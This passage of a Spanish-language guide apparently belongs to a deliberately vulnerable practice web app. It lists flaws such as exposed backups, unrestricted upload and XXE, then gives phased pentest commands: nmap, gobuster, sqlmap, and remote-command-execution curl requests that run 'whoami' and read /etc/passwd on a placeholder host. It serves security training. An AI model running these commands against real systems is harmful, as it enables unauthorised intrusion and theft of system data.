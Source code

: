 ### 8. **Backup Files Exposure** (Alto)
- **Endpoints**: `/backup/database.sql`, `/backup/config.bak`, `/backup/users.csv`
- **Herramientas**: Gobuster, Dirb, Dirbuster
- **Descripción**: Archivos de backup públicamente accesibles

### 9. **Unrestricted File Upload** (Alto)
- **Endpoint**: `/admin/upload`
- **Herramientas**: Burp Suite, curl
- **Descripción**: Subida de archivos sin validación

### 10. **XML External Entity (XXE)** (Alto)
- **Endpoint**: `/admin/xml`
- **Herramientas**: Burp Suite, scripts personalizados
- **Descripción**: Procesamiento XML vulnerable

---

## INSTRUCCIONES PARA LA AUDITORÍA

### PREREQUISITOS
- Parrot Security OS o Kali Linux
- Herramientas instaladas: nmap, gobuster, dirb, nikto, sqlmap, metasploit

### FASE 1: RECONOCIMIENTO
```bash
# Information gathering
nmap -sS -sV -O tu-app.koyeb.app
whois tu-app.koyeb.app
```

### FASE 2: EXPLORACIÓN
```bash
# Port scanning
nmap -p 80,443,8080,8443 -sV tu-app.koyeb.app

# Vulnerability scanning
nessus -T html tu-app.koyeb.app
```

### FASE 3: ENUMERACIÓN
```bash
# Directory enumeration
gobuster dir -u https://tu-app.koyeb.app -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt

# File enumeration
dirb https://tu-app.koyeb.app /usr/share/wordlists/dirb/common.txt
```

### FASE 4: OBTENCIÓN DE ACCESO
```bash
# Information disclosure
curl https://tu-app.koyeb.app/debug/server-info

# RCE exploitation
curl "https://tu-app.koyeb.app/admin/execute?cmd=whoami"
curl "https://tu-app.koyeb.app/admin/execute?cmd=cat /etc/passwd"

# SQL injection
sqlmap -u "https://tu-app.koyeb.app/admin/user/1" --dbs --batch

# Directory traversal
```